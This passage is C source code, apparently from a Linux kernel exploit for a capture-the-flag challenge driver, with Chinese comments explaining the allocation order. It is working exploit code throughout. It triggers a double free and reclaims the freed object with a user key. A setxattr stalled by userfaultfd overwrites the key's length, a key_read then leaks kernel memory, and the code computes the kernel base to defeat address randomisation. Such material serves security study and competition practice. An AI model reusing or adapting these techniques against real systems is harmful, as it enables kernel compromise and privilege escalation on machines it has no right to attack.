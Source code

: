 ```c
        info("Allocating and freeing obj using challenge function...");
        add(dev_fd);
        delete (dev_fd);

        info("Allocating key...");
        key_id = key_alloc("whatever", "ltfall_here", 0xf0);

        info("Freeing again...");
        delete (dev_fd);

        info("Using setxattr...");

        /**
         * 顺序
         * add delete key_alloc delete setxattr(卡住三秒) -> 目前没在释放状态
         * key_revoke 释放 -> 位于freelist
         * alloc_pgv 拿到
         * （此时释放第一次setxattr卡住的obj）
         * 两次setxattr修改才刚刚放到freelist的obj，概率很大
         */


        for(int k = 0x150; k > 0x0; k = k-0x8){
            *(uint64_t*)((size_t)uffd_addr_sleep3+0x1000-k) = 'd';
        }
        *(uint64_t*)((size_t)uffd_addr_sleep3+0x1000-0x150) = 0x11111111;
        *(uint64_t*)((size_t)uffd_addr_sleep3+0x1000-0x148) = 0x22222222;
        *(uint64_t*)((size_t)uffd_addr_sleep3+0x1000-0x140) = 0x1000;

        pthread_t sleep3thread;
        pthread_create(&sleep3thread, NULL, setxattr_func, (char*)((size_t)uffd_addr_sleep3 + 0x1000 - 0x150));
        sleep(1);

        // content[0] = content[1] = 0x11111111;
        // content[2] = 0x1000;
        // setxattr("/exploit", "ltfall", (char*)content, 0x200, 0);
        
        int ret = key_read(key_id, (void *)content, 0x1000);
        info("Value of ret: 0x%x.", ret);

        kernel_offset = -1;
        for (int i = 0; i < 0x200; i++)
        {
            // info("content[%d] = 0x%llx.", i, content[i]);
            if ((content[i] > 0xffffffff81000000) && ((content[i] & 0xfff) == 0x280))
            {
                kernel_offset = content[i] - 0xffffffff8143e280;
                kernel_base += kernel_offset;
                break;
            }
        }

        if (kernel_offset == -1)
        {
            err_exit("Failed to get kernel addr.");
        }

        success("kernel offset: 0x%llx.", kernel_offset);
        success("kernel base: 0x%llx.", kernel_base);

        /* 释放user_key_payload */
        info("Key revoking...");
```